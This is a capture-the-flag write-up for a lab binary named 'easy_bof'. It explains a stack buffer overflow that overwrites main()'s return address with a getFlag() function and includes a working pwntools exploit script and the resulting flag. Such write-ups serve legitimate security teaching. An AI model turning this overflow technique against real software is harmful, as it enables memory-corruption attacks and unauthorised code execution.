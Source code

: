 # 🔑 Write-Up

Considering the description, that gives us the dimensions of the buffer, we concur that we must perform a buffer overflow.

We can see that the buffer is 16 char wide and that there's a `getFlag()` function that we might want to execute, so the return address of `main()` must be overwritten with the address of `getFlag()`.

We can use gdb to see the dimensions of the stack in order to undestand how much "padding" to send to write the `getFlag()` address in the correct place, which is 24 bytes.

```python
import pwn

p = pwn.process("./easy_bof")
elf = pwn.ELF("./easy_bof")

p.sendline(b"A"*(16+24)+pwn.p64(elf.symbols["getFlag"]))
p.interactive()
```

### 🚩 Flag 

```plain
spritz{bof_for_fun_and_profit?}
```